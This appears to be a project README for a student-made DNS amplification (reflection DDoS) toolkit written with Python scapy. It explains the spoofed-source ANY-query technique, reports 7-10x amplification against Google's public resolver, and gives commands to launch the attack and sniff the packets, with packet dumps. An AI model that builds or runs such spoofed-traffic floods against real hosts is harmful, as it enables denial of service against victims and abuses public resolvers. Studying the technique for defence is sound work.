 DNS Amplification attack
===
contribute by < `ztex` >
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)
[hackmd](https://hackmd.io/s/rkOF6EJu4)

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
In this experience, I firstly develop a toolkit base on **pathon scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet.
The `destination` is `8.8.8.8`, which is well-known **google DNS server**.
In the experience phase, the `source address` is local, but can be easily change to `victim address` in attack phase.
- [ ] DAA.py
Used for lauching attack
- [ ] sniffer.py
Used for sniffing packet to varify

## Result
Sending: 70 bytes
Receiving: 500~ 700 bytes
Amplification is about 7 ~ 10 times

## Usage
### Build virtual environment
`virtualenv .`
### Install necessary packages
`pip3 install -r requirement`
### Lauch attack
`make DAA`
### Sniffing
`make sniffer`
### Snapshot
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```

